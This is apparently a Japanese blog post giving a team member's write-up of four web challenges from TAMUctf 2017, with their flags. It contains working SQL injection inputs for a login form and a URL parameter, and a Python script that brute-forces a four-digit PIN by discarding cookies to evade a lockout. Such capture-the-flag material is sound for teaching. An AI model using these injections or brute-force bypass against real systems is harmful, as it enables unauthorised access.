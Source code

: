 ```yaml
---
layout: post
title: TAMUctf 2017 の write-up
categories: [ctf]
date: 2017-04-26 08:52:01 +0900
---
```


チーム Harekaze で [TAMUctf 2017](https://ctf.tamu.edu) に参加しました。最終的にチームで 2980 点を獲得し、順位は 20 位 (得点 757 チーム中) でした。うち、私は 27 問を解いて 2875 点を入れました。

以下、解いた問題の write-up です。

## [Web 25] SQL: The Injectioning

ユーザ名に `admin` パスワードに `' or 1;#` を入力するとフラグが表示されました。

```
gigem{S@niTIz3_Th0se_InpUTs}
```

## [Web 50] SQL Injection Revisited

`/web/transaction_list.php?itemID=-1%20or%201` にアクセスするとフラグが表示されました。

```
gigem{55Fl@gsFlyOv3rKyl3Field}
```

## [Web 75] Maze

与えられた URL を開くと、迷路で遊べるサイトが表示されました。

壁に当たるとゲームオーバーになるようなので、`game.physics.arcade.collide = () => false;` で当たり判定を消してしまいましょう。ゴールに行くとフラグが表示されました。

```
gigem{L1F35_A_MAZ3}
```

## [Web 100] Super Secure Pin

与えられた URL を開くと、4 桁の PIN コードの入力ができるサイトが表示されました。

数回適当な PIN コードを入力すると `WRONG: too many tries` と表示され、それ以上 PIN コードの入力ができなくなってしまいました。

Cookie を消すと再び PIN コードの入力ができるようになりました。これを利用して 10000 通り試してみましょう。

```python
import requests
for x in range(10000):
  cookies = requests.get('http://pin.ctf.tamu.edu/login').cookies
  c = requests.post('http://pin.ctf.tamu.edu/login', data={'pin': str(x).zfill(4)}, cookies=cookies).content
  if 'WRONG' not in c:
    print c
```
